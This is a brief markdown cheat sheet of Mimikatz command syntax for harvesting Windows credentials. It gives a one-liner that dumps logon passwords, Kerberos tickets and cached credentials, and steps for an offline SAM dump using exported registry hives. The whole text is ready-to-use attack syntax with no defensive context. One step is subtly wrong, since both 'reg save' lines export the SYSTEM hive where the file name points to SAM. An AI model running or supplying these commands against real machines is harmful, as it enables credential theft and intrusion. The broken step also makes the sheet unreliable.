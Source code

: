 # Mimikatz syntax

1. mimkatz 1 liner:
   - `Mimikatz.exe "log mimikatz.log" "sekurlsa::logonpasswords" "sekurlsa::tickets" "lsadump::cache" exit`
  
2. mimikatz SAM and SYSTEM files:
   - `Mimikatz.exe "log mimikatz.log" "lsadump::sam /system:<system file> /sam:<sam file>" exit`
   - reg save HKLM\SYSTEM sambakup.hiv
   - reg save HKLM\SYSTEM systembakup.hiv
